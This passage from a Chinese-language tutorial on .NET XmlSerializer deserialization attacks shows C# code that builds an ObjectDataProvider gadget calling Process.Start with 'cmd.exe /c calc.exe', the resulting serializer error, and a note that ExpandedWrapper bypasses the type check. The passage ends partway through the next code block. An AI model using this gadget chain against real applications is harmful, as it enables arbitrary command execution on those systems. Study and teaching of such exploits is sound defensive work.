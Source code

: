 ```csharp
{

    public class XmlDeserialize
    {
        public static void Main(string[] args)
        {
            var objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "Start";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc.exe");
            objectDataProvider.ObjectInstance = new Process();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(ObjectDataProvider));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            // 序列化
            xmlSerializer.Serialize(writer, objectDataProvider);
            Console.WriteLine(memoryStream.Position);
            memoryStream.Position = 0;
            
            // 输出xml
            Console.WriteLine(Encoding.UTF8.GetString(memoryStream.ToArray()));
            // 反序列化
            Person p1 = (Person)xmlSerializer.Deserialize(memoryStream);
            Console.WriteLine(p1.name);
        }
    }
}
```
当运行上述程序后会受到报错。
```
未经处理的异常:  System.InvalidOperationException: 生成 XML 文档时出错。 ---> System.InvalidOperationException: 不应是类型 System.Diagnostics.Process。使用 XmlInclude 或 SoapInclu
de 特性静态指定非已知的类型。
   在 System.Xml.Serialization.XmlSerializationWriter.WriteTypedPrimitive(String name, String ns, Object o, Boolean xsiType)
   在 Microsoft.Xml.Serialization.GeneratedAssembly.XmlSerializationWriterObjectDataProvider.Write1_Object(String n, String ns, Object o, Boolean isNullable, Boolean needType)    
   在 Microsoft.Xml.Serialization.GeneratedAssembly.XmlSerializationWriterObjectDataProvider.Write5_ObjectDataProvider(String n, String ns, ObjectDataProvider o, Boolean isNullabl
e, Boolean needType)
   在 Microsoft.Xml.Serialization.GeneratedAssembly.XmlSerializationWriterObjectDataProvider.Write6_ObjectDataProvider(Object o)
   --- 内部异常堆栈跟踪的结尾 ---
   在 System.Xml.Serialization.XmlSerializer.Serialize(XmlWriter xmlWriter, Object o, XmlSerializerNamespaces namespaces, String encodingStyle, String id)
   在 System.Xml.Serialization.XmlSerializer.Serialize(TextWriter textWriter, Object o, XmlSerializerNamespaces namespaces)
   在 XmlDeserialize.XmlDeserialize.Main(String[] args)
```
XmlSerializer不会识别objectDataprovider，这是因为在初始化XmlSerializer的时候已经指定了类型，导致在序列化的时候类型不符，最终抛错
![image.png](https://cdn.nlark.com/yuque/0/2024/png/32634994/1707149776121-8b3ac374-d3f4-41a3-8b3f-f9be797b4829.png#averageHue=%232d2121&clientId=ubec19cfa-997f-4&from=paste&height=43&id=u02923790&originHeight=54&originWidth=866&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14774&status=done&style=none&taskId=u12273901-a0c1-4fed-963c-d2e70666a3b&title=&width=692.8)
解决方法也很简单，我们可以找到一个泛型类，也就是类似于HashMap这样的类，最终找到的类是`ExpandedWrapper`
```csharp
using System;
using System.Collections.Specialized;
using System.Data.Services.Internal;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Text;
using System.Windows;
using System.Windows.Data;
using System.Windows.Markup;
```
